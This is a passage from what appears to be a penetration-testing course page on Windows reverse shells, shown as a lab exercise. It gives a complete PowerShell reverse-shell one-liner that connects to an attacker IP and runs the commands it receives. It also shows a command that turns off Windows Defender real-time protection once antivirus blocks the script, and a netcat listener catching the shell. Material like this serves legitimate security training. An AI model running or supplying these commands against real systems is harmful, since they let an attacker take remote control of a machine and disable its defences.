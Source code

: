 # Windows 

```cmd-session
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.167',7777);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
#### Client (target)

Reverse Shells

```cmd-session
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

The `Windows Defender antivirus` (`AV`) software stopped the execution of the code. This is working exactly as intended, and from a `defensive` perspective, this is a `win`. From an offensive standpoint, there are some obstacles to overcome if AV is enabled on a system we are trying to connect with. For our purposes, we will want to disable the antivirus through the `Virus & threat protection settings` or by using this command in an administrative PowerShell console (right-click, run as admin):

#### Disable AV

Reverse Shells

```powershell-session
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```

Once AV is disabled, attempt to execute the code again.

#### Server (attack box)

Reverse Shells

```shell-session
shakir0x00@htb[/htb]$ sudo nc -lvnp 443

Listening on 0.0.0.0 443
Connection received on 10.129.36.68 49674

PS C:\Users\htb-student> whoami
ws01\htb-student
```